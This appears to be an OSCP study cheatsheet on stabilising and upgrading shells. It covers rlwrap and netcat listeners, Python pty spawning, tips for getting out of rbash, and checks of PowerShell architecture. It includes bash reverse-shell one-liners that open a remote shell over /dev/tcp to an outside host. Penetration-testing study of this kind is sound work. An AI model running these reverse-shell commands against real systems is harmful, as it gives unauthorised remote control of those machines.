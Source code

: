```yaml
---
title: Upgrading and Improving Shells
author: sKyW1per
category: "OSCP"
date: "2021-03-08 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Tricks to improve a crappy shell
```
rlwrap
$ rlwrap -r nc -nvlp 443

Turning terminal echo off:
1
Ctrl + Z in the nc instance to move the shell to the background;
2
$ stty raw echo; fg
For also getting the ability to clear the screen:
3
In the nc shell:
$ export term=XTERM

```

###### Upgrading Shells
```
Upgrade sh to bash using python (2 or 3)
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
$ /bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1
$ /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1'

```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
$ [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
$ [Environment]::Is64BitProcess

alternative to check arch in ps environment:
$ [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```
